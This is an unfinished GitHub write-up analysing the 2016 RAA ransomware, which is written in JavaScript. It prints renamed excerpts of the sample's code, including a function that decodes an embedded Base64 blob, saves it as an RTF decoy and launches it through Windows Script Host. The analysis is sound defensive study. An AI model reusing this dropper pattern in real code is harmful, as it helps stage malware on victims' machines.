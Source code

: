 # RAA Ransomware JavaScript code analysis

On 14th of June 2016 I found an information about new ransomware called RAA Ransomware. Couple of websites mentioned about it as first ransomware created only by using JavaScript.

Following some links provided by Polish malware analyst **@hasherezade** (https://github.com/hasherezade, https://twitter.com/hasherezade) I've downloaded RAA JavaScript source code from malwr.com (https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/) to take a look its internals.

File **raa.js** in this repository contains original source code of RAA downloaded from malwr.com. Other files contains source code with some refactoring/renaming which I've done during RAA analysis and test runs.


# Analysis

## Extracting parts of code into separate files

**raa.js** file contains 3rd party library, used for some encoding and encryption purposes. It's **CryptoJS** library (source code available here https://code.google.com/archive/p/crypto-js/ or GitHub fork here https://github.com/sytelus/CryptoJS).

To keep source code easier to analysis, I've decided to divide **raa.js** into couple of smaller parts. After quick investigation I was able to spot three main parts.

Folder **partials/** contains those parts of code (I keep order of how those fragments exists in original file). Please be aware that I've done a lot of renaming, mostly in **raa_other.js**. Original, obfuscated names you can find in **raa.js**.

- **Crypto.js** contains CryptoJS library
- **raa_other.js** contains other functions, including **zQqUzoSxLQ()**, which seems to be an entry point for the program
- **NWvQtGjjfQX.js** contains only body of function _NWvQtGjjfQX()_, which is quite huge :)


## How RAA JavaScript works

First executable line of script is this assingment:

```javascript
var TBucypWw = YUIMqkFkI();
```

I renamed all found variables and function into something what makes sense and allows to follow them in code in some easy way. This is how previous line and a function just before it looks like after renaming (I just guessed the role of each variable and function to choose particular name):

```javascript
function generateKey() {
    var returnedKey = "";
    var allowedChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for (var i = 0; i < 5; i++)
        returnedKey += allowedChars.charAt(Math.floor(Math.random() * allowedChars.length));
    return returnedKey;
}

// var TBucypWw = YUIMqkFkI();
var __key = generateKey();  // <-- returns xW5Gf
```

This fragment just generates a string which contains five characters. In this writeup, to understand its meaning, how and where it's used, I assigned *xW5Gf* from example above as generated value of **__key** variable.

Next executable fragment is:

```javascript
// starts from:
//
// var Yvwtdbvd = WScript.Arguments;
// (...)


var __arguments = WScript.Arguments;


if (__arguments.length == 0) {
    runShell();
    runRansomware();
} else {
    null;
}

```
And here's RAA starts its work. After script checks if there are any arguments passed (now let's assume that there aren't) **runShell()** is executed. Original name of this function is **nYuMHHRx()**, below is my refactored version.

```javascript

function runShell() {
    var b64EncodedString = "e1xydGYxXG..( very long Base64 encoded string )..zIwXHBhcg0KfQ0KBBSDIOBBSDIO==";
    b64EncodedString = b64EncodedString.replace(/BBSDIO/g, "A");
    var clear_b64EncodedString = CryptoJS.enc.Base64.parse(b64EncodedString);
    var clearedString = clear_b64EncodedString.toString(CryptoJS.enc.Utf8);
    clearedString = clearedString.replace(/BBSDIO/g, "A");
    var AdodbStreamObj = new ActiveXObject('ADODB.Stream');
    var WScriptShellObj = WScript.CreateObject("WScript.shell");
    var _saveFolder = WScriptShellObj.SpecialFolders("MyDocuments");
    _saveFolder = _saveFolder + "\\" + "doc_attached_" + __key;
    AdodbStreamObj.Type = 2;
    AdodbStreamObj.Charset = "437";
    AdodbStreamObj.Open();
    AdodbStreamObj.WriteText(clearedString);
    AdodbStreamObj.SaveToFile(_saveFolder);
    AdodbStreamObj.Close();
    var run = "wordpad.exe " + "\"" + _saveFolder + "\"";
    WScriptShellObj.Run(run);
    return 0;
}

```

Let's go through it step by step.

_b64EncodedString_ variable contains very long Base64 encoded string. After a couple of operations with Regular Expressions and CryptoJS methods calls - finally we get RTF document (see **extracted/extracted_rtf.rtf** file)

Next, a file is created with following path:

```
\MyDocuments\doc_atatched_xW5Gf
```

Content of previously generated RTF file is then saved at this path.

Finally, following command is prepared:

```
var run = wordpad.exe "\MyDocuments\doc_atatched_xW5Gf"
```

and executed by Windows Script Host using method Run():

```
WScriptShellObj.Run(run);
```
( reference: https://msdn.microsoft.com/en-us/library/d5fk67ky(v=vs.84).aspx )


-- TBD --



## Links, references

**News about RAA from BleepingComputer website**

http://www.bleepingcomputer.com/news/security/the-new-raa-ransomware-is-created-entirely-using-javascript/

**malwr.com**

https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/


**SophosLabs blog**			
https://nakedsecurity.sophos.com/2016/06/20/ransomware-thats-100-pure-javascript-no-download-required/
